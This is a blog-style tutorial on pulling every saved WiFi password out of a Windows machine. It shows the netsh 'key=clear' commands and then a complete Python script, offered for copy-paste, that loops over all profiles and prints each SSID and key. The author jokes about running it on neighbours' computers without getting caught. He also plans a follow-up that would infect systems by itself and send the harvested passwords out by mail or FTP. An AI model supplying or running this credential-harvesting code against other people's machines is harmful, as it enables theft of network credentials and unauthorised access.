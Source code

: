 ```yaml
---
title: How to extract WiFi Passwords stored on a system using Python 
date: "2021-02-07T12:00:00.000Z"
description: "Do you know you can easily extract all the saved WiFi passwords out of a system? Let's learn how you can do this"
---
```


Before starting anything I just wanna say (obligatory), **This is all for educational purpose and shouldn't be used for harming anyone**

Also that this can easily be done in any language that allows you to execute commands on the terminal. So let's see how this can be done on the terminal then we will see how we can automate this via python.

## Open a Terminal 

Press `Win + R` and type `cmd` in the input box next to `run: ` and press enter 

![](./images/Zero.JPG)

## Show all the saved profiles in your system 

Type `netsh wlan show profiles` and press enter. This should show all the Wifi Profiles saved on your system

![](./images/One.JPG)

## Details about a specific WiFi Profile

Enter `netsh wlan show profile <profile>` and replacing `<profile>` with the name of the profile you want to get details about 

![](./images/Two.JPG)

You can see `Security key: Present` in the `Security Settings` Section but it isn't showing the password. For that, we will have to pass in a parameter of `key=clear`. 

## So let's try this again

`netsh wlan show profile <profile> key=clear`

And voila 🥳🎊 We have the password in the `Key Content` Field just below `Security key: Present`
![](./images/Three.JPG)

The problem you can see here is that you will have to run this statement for each WiFi Profile and it might take some time to do this manually. Might just be the difference between you walking away with all passwords or getting caught in the act xD 

# Now let's automate this

I chose python because I am comfortable with it and have experience with executing instructions on the shell line via python but you can do the same with any language which allows you to execute commands on cmd and the output back. 

## How to execute a command on the shell from python

We could have used the `system()` method of the `os` module but the problem with that is that it runs the commands and prints the output directly on the stdout pipeline and there is no straight way to capture the output in a variable(as far as I know). So I'll be using the `check_output()` method of the `subprocess` module which takes in a list representing the command and returns the output after running the command as bytes. 

## Running commands and formating output

Let's see how we can use this to run `netsh wlan show profiles` 
```
import subprocess
output = subprocess.check_output(['netsh', 'wlan', 'show', 'profiles']) 
```   

And if we try printing `output`, it should look something like this: 

```
b'\r\nProfiles on interface Wi-Fi:\r\n\r\nGroup policy profiles (read only)\r\n---------------------------------\r\n    <None>\r\n\r\nUser profiles\r\n-------------\r\n    All User Profile     : JioFiber-5G\r\n    All User Profile     : JioFiber\r\n    All User Profile     : Blablabla 2\r\n   
 All User Profile     : Jaya\r\n    All User Profile     : 5G_Home\r\n    All User Profile     : 0E278461867E5885A4F8E790D14D056E 2\r\n    All User Profile     : Jio-2_4G\r\n    All User Profile     : Blablabla\r\n    All User Profile     : Jio5G\r\n    All User Profile     : 0E278461867E5885A4F8E790D14D056E\r\n    All User Profile     : Le pakad\r\n\r\n'
 ```
<br>

>  **NOTE:** You might get `\n` only instead of `\r\n` depending on which OS you are running this on. This is because DOS and Unix represent linebreak in different ways which are being carried to windows and Linux(why?). This can be a whole blog in itself 😂

Next, we should decode this string to `utf-8` and split it into different strings, and extract all the important information, a.k.a. Wifi profiles

```
data = output.decode('utf-8').split('\n')
profiles = []
for d in data:
    if "All User" in d:
        profiles.append(d.split(":")[1].replace('\r','').strip())
```

Now we should have all the profiles in a nice concise list

## Extracting Passwords for each profile

All we got to do now is loop over profiles and execute the same command for each profile, format the data and extract what's important for us. PASSWORDS (insert evil noise)

```
gold = [] 
for profile in profiles: 
    command = ["netsh", "wlan", "show", "profile", profile, "key=clear"]
    output = subprocess.check_output(command)
    data = output.decode('utf-8').split('\n')
    for d in data:
        if "Key Content" in d:
            password = d.split(":")[1].replace('\r','').strip()
            gold.append([profile,password])
```
And at last, drum rolls, please 🥁🥁

```
for g in gold:
    print("Username: " +g[0] + "\nPassword: " + g[1])
    print("------------------")
```
I am sorry but I can't show you my output 😜 but here is a representation of how it should look
```
Username: ABCD
Password: password
------------------
Username: Lock
Password: key
------------------
Username: Safe
Password: verysafe

```
# What you want to copy-paste 

```
import subprocess
output = subprocess.check_output(['netsh', 'wlan', 'show', 'profiles']) 

data = output.decode('utf-8').split('\n')
profiles = []
for d in data:
    if "All User" in d:
        profiles.append(d.split(":")[1].replace('\r','').strip())

gold = [] 
for profile in profiles: 
    command = ["netsh", "wlan", "show", "profile", profile, "key=clear"]
    output = subprocess.check_output(command)
    data = output.decode('utf-8').split('\n')
    for d in data:
        if "Key Content" in d:
            password = d.split(":")[1].replace('\r','').strip()
            gold.append([profile,password])

for g in gold:
    print("Username: " +g[0] + "\nPassword: " + g[1])
    print("------------------")
```

# Conclusion 
We learned about the `netsh` command on a shell which can be used to view all saved Wifi profiles and also how we can view information about a specific Wifi profile and we got to know how we can add pass an additional parameter to view the saved password, and at the end, we automated this whole process using python. Remember you can automate using any language with allows you to execute commands on a shell and read the output. 

# Next Step 
Ideas must be going left and right how you can execute this script on your neighbors and get their wifi and live the rest of your life for free, well ME TOO. So I am thinking of automating this to an extent that this script should infect the system on its own and extract the passwords and then send them to you via mail or an FTP server so that you don't even need to visit your neighbors.     Covid you know 🤷🏻‍♂😂

Follow me out on twitter [@jai_dewani](https://twitter.com/jai_dewani) if you wanna an update whenever I decide to post the next part 😉